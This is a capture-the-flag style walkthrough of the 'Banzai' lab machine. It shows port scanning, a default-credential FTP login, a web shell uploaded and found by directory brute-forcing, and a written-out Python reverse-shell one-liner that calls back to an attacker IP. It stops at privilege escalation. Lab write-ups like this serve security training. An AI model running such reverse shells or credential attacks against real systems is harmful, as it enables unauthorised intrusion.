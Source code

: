 First start with nmap scan 

`nmap -sC -sV -T4 -oN nmap.txt <IP> -p- -Pn`

```
# Nmap 7.93 scan initiated Tue Dec 27 18:39:51 2022 as: nmap -sC -sV -T4 -oN fullmap.txt -Pn -p- 192.168.218.56
Nmap scan report for banzai.offseclabs.com (192.168.218.56)
Host is up (0.20s latency).
Not shown: 65528 filtered tcp ports (no-response)
PORT     STATE  SERVICE    VERSION
20/tcp   closed ftp-data
21/tcp   open   ftp        vsftpd 3.0.3
22/tcp   open   ssh        OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
| ssh-hostkey: 
|   2048 ba3f6815288636497b4a84226815ccd1 (RSA)
|   256 2dec3f7831c3d0345e3fe76b77b56109 (ECDSA)
|_  256 4f615cccb01fbeb4eb8f1c897104f0aa (ED25519)
25/tcp   open   smtp       Postfix smtpd
|_smtp-commands: banzai.offseclabs.com, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8
| ssl-cert: Subject: commonName=banzai
| Subject Alternative Name: DNS:banzai
| Not valid before: 2020-06-04T14:30:35
|_Not valid after:  2030-06-02T14:30:35
|_ssl-date: TLS randomness does not represent time
5432/tcp open   postgresql PostgreSQL DB 9.6.4 - 9.6.6 or 9.6.13 - 9.6.19
8080/tcp open   http       Apache httpd 2.4.25
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: 403 Forbidden
8295/tcp open   http       Apache httpd 2.4.25 ((Debian))
|_http-title: Banzai
|_http-server-header: Apache/2.4.25 (Debian)
Service Info: Hosts:  banzai.offseclabs.com, 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Dec 27 18:52:32 2022 -- 1 IP address (1 host up) scanned in 761.19 seconds
```

Nice got some interesting ports open, first start by enumerating port 21.

![image](https://user-images.githubusercontent.com/87468669/209782893-a27f371b-1316-42fb-886a-458855b50f0b.png)

Tried loggin ftp with default creds like admin:admin and it worked, and i was able to put a file in the ftp directory, next let's enumerate port 8295 which is http service.

![image](https://user-images.githubusercontent.com/87468669/209783288-9829763c-4517-418d-85c2-e2424a66689b.png)

Checking page source was nothing sus in it, let's burst hidden dirs...

```
┌──(n16hth4wk㉿n16hth4wk-sec)-[~/Documents/PGP/Banzai]
└─$ ffuf -u "http://192.168.108.56:8295/FUZZ" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -fc 403 -fs 0,23315 -e .txt,.php,.bak,.zip,.js 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.108.56:8295/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Extensions       : .txt .php .bak .zip .js 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response status: 403
 :: Filter           : Response size: 0,23315
________________________________________________

img                     [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 201ms]
css                     [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 1036ms]
lib                     [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 641ms]
js                      [Status: 301, Size: 320, Words: 20, Lines: 10, Duration: 191ms]
shell.php               [Status: 200, Size: 233, Words: 9, Lines: 12, Duration: 194ms]
contactform             [Status: 301, Size: 329, Words: 20, Lines: 10, Duration: 189ms]
```

Great as seen above the ftp server was connected to this web server's directory, we can see the shell file that was uploaded earlier.

![image](https://user-images.githubusercontent.com/87468669/209784201-bc5d2705-ea4f-4476-9cc9-2846af9424a5.png)

Checking the shell.php file i uploaded, i got an RCE, so let's get a reverse shell. Fire up ncat listener

![image](https://user-images.githubusercontent.com/87468669/209784622-9c7d56ac-d9fc-46be-b13c-3b4a65e18c2b.png)

reverse shell payload ready

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.108",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

![image](https://user-images.githubusercontent.com/87468669/209784859-bc6ce987-f54d-4f41-b3bc-75f077c3ecd7.png)

ran the reverse shell payload.

![image](https://user-images.githubusercontent.com/87468669/209784972-9680b912-e5e3-4416-a57b-b95f95b10889.png)

Boom I'm in got a reverse shell as user www-data.

![image](https://user-images.githubusercontent.com/87468669/209786068-eff48675-a09e-4efa-9002-70728d64814f.png)

stabilize the shell and esc privs...
